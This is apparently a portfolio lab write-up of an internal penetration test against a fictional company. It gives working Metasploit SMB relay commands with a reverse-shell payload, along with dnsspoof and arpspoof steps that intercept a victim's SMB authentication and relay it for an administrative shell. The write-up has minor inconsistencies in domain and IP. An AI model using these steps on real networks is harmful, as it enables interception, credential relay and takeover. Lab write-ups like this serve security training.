 # Internal Penetration Test – Slytherin Solutions

## Scenario

You have been hired by Slytherin Solutions, a mid-sized technology company, to conduct a security assessment. The company wants to evaluate potential risks within its internal network and has authorized a controlled penetration test within the defined scope.

**Scope & Rules of Engagement**

- The penetration test is internal, meaning you are connected directly to their LAN.

- The network range for testing is 192.168.50.0/24.

- No credential brute-forcing to avoid locking out user accounts.

- Focus on network-based attacks, specifically SMB Relay and DNS spoofing.


**Objectives**

- Exploit misconfigurations using SMB Relay Attack.

- Manipulate network traffic using dnsspoof to redirect victims.


**Skills & Techniques Covered**

* Performing SMB Relay attacks against patched systems.
* Using dnsspoof to manipulate network traffic and redirect requests.
* Leveraging Metasploit for exploitation and session management.

**Tools Required**

- dnsspoof (for ARP and DNS spoofing)

- Metasploit Framework (for SMB relay exploitation)

## SMB Relay Attack Execution
In this scenario, I launched an SMB Relay Attack to intercept and relay authentication requests from a client machine to a target system, ultimately gaining a Meterpreter shell.

**Attack Flow**

* A client machine (192.168.50.12, running Windows 7) automatically attempts an SMB connection to \\fileserver.slytherin.com\wallet$ every 30 seconds.

* The attacker machine (192.168.50.23) spoofs the IP address of fileserver.slytherin.com to redirect SMB traffic.
* The client unknowingly connects to the attacker's machine instead of the real fileserver.slytherin.local.
*  The SMB Relay exploit (running on the attacker machine) captures and relays the authentication request to a vulnerable target (192.168.50.4).
*  The exploit successfully authenticates on the target and delivers a Windows Meterpreter shell, granting access to the system.

**Attack Execution**

Step 1: Start msfconsole and configure the SMB Relay exploit

````bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 192.168.50.23
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.50.23
set SMBHOST 192.168.50.4
exploit
````

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr1_LI.jpg)

Step 2: In a new tab, configure dnsspoof in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain: slytherin.com. Create a file with fake dns entry with all subdomains of
slytherin.com pointing to our attacker machine.

````bash
echo "192.168.50.23 *.slytherin.com" > hosts
````

- run dns spoof in the same tab

````bash
dnsspoof -i eth1 -f hosts
````

image

Step 3: Activate the MiTM attack using the ARP Spoofing technique. My goal is to poison the traffic between my victim, Windows 7 at 192.168.50.12, and the default gateway at 192.168.50.1. In this way, I can manipulate the traffic using dnsspoof, which is already running. 
In order to perform an ARP Spoofing attack, I enabled the IP forwarding as follow in a new tab (3):

````bash
echo 1 > /proc/sys/net/ipv4/ip_forward
````

In two separate terminals, start the ARP Spoof attack against 192.168.50.12 and 192.168.50.1 using these commands:

````bash
arpspoof -i eth1 -t 192.168.50.12 192.168.50.1
arpspoof -i eth1 -t 192.168.50.1 192.168.50.12
````
![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr2_LI.jpg)

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr3_L.jpg)

So, every time the victim starts an SMB connection, dnsspoof aligned with the ARP Spoof attack, forges the DNS replies telling that the searched DNS address is hosted at the attacker machine:

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr1_L.jpg)

Instead of getting a DNS response with the real IP address of fileserver.slytherin.com, it received the IP of the attacker: 192.168.50.23. In Metasploit, every time there is an incoming SMB connection, the SMB Relay exploit
grabs the SMB hashes (credentials) and then uses them to get a shell on the target machine (192.168.5.4) - since it was set in the SMBHOST field of the smb-relay exploit.

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr5_LI.jpg)

## Key Takeaway
In this lab, I were able to trick the client by spoofing DNS records, this, in turn, combined with SMB relay attack, provided us with a meterpreter session on the target machine with administrative privileges.
